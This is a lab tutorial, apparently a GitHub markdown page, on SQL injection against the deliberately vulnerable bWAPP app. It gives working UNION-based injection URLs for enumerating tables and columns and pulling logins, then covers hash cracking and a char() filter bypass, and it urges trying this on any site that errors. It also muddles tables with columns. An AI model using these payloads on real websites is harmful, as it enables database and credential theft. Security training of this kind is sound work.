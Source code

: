 #SQL Injection
Structured Query Language (SQL) is used to many developers to insert and retrieve information from a common relational database. Whenever you see a website that does more than just display static information (i.e. letting users make posts or create accounts) it is most likely using a database. Most Wordpress sites run on SQL databases. The standard SQL command looks like this:
```sql
select * users where name='Simeon'
```
This sql would statement simply pull my account information within a web application. In a web application, the developer might dynamically generate a sql statement based on the user input. 

Suppose the developer wanted to select users based on your input, the sql statement might look like this:
```sql
select * users where name='[NAME]'
```
The problem with this is that you (you sneaky person you ;] ) might try to enter a value to break that sql statement or use it to extract more information from the database than you are entitled to (usernames, passwords, ssn numbers, etc...).

Let's start with the bwapp SQL Injection (Search/GET) exercise.

You should begin by playing around with the search box and entering various values to see what happens. If you simply press enter, all the movies are returned. However, if you enter a single quote ', you get the following error
```
Error: You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near '%'' at line 1
```
This is because you have broken the dynamic sql statement was supposed to be generated from your input (congratulations on being a bAd@$$-H@CK3R!). We can assume the sequel statement looked something like this:
```
select * from movie where title=' + [YOUR INPUT] + '
```
I can tell by looking at the url ;). By inputing a single quote, or anything followed by a single quote, you break the sql statement because it now has too many quotes. Suppose you entered "iron man'", then the resulting sql statement would be:
```
select * from movie where title='iron man''
```
That's one quote too many! And sql being picky with syntax has no idea how to interpret that. If you ever get this result on any website, you are clear to wreak havoc (at your own risk, of course).
 
For this next section, we'll switch from using the input field to messing with the url of the page. This will work because the input is being submitted though a GET request. Go ahead and give it a try! Instead of search using the input box, just replace everything after the "?title=" in the url with your search term. You should get the same results as using the search box. 

###First, we'll try to guess how many tables are in database!

We can achieve this using sql's ORDER BY command. You can use it like so:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' ORDER BY 99-- -
```
First we should recognize that the sql command outputed from like probably looks like:
```
select * from movie where title='1' ORDER BY 99-- -
```
The "-- -" is the SQL syntax for commenting. We want to negate anything that comes after our input so we can be sure about the command's behavior. 

You should get an error from the command above. Since we will always get an error if we order by more than the number of tables that exist, we can keep trying it with a small number until we no longer get an error. At that point we will know how many tables exist in the database. 

If you order order by any number less than 7, you should no longer have an error. Instead, it should say "No movies were found!". Great! Now we can use "union select" command to extract information from other tables. The union select injection only works if we know exactly how many tables exist. It works as follows:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -
```
In this injection, each of the numbers represents a table in the database. If this works, we can replace some of the values to get information about the actual tables. We can use the following to get the of the database:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,@@version,3,4,5,6,7-- -
```
If you google the resulting version, you can learn more about the database's mechanism and vulnerabilities making your hack job a whole lot easier. 

You can also grab the table names in this manner:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from
information_schema.tables-- -
```
Note that most of these tables are autogenerated. The user generated tables appear to be "users", "blog", "heroes", "movies", "login". We can probably get some valuable information from these tables. You can similarly grab the column names. Although they aren't labeled by table, you can probably guess which table they belong to. 
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns-- -
```
Now if we actually wanted to know, we could simply use a "where" condition to filter these columns.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```
Now for the exciting part: we can go ahead steal the usernames and passwords
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -
```
Once you get the hash of the password, you can simple google it to find to clear text value if it is a simple password. If if is more complicated and a simple search doesn't find it, you can use a hash cracker like [John the Ripper](http://www.openwall.com/john/) 

###Bonus!
Suppose we have a sensible developer who eliminates the use of quotes and special characters in the input (because she knows about people like us). We can cheat by using the "char" function to convert our word character by character from numberical values to their ascii representation. You can either use and ascii table or an [ascii to text converter](http://www.unit-conversion.info/texttools/ascii/) to get the value of each character, and have the browser interpret the result using the "char" function. The two commands below should yield the same results.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name=char(117,115,101,114,115)-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```